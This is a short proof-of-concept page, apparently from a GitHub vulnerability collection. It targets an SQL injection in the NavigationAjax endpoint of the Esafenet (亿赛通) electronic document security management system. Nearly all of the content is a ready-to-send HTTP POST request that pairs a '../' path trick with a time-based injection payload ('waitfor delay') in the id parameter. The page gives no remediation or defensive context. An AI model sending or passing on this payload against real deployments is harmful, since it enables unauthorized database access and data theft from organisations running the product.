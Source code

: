 ## 亿赛通电子文档安全管理系统NavigationAjax接口存在SQL注入漏洞


## poc
```
POST /CDGServer3/js/../NavigationAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=nav&id=-999'waitfor delay '0:0:3'--+&name=&openId=
```

![image](../../images/8bb3c1c9-a38d-475a-9162-8ad5de56b03f.png)
